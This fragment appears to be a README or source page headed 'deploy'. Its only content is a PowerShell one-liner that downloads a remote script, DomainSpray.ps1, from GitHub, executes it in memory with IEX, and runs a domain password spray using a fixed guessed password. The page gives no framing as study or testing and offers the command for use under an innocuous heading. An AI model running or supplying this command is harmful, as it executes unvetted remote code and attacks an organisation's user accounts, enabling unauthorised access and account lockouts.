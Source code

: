# deploy

IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/launchsilo/deploy/main/DomainSpray.ps1') ; Invoke-DomainPasswordSpray -Password Password!1
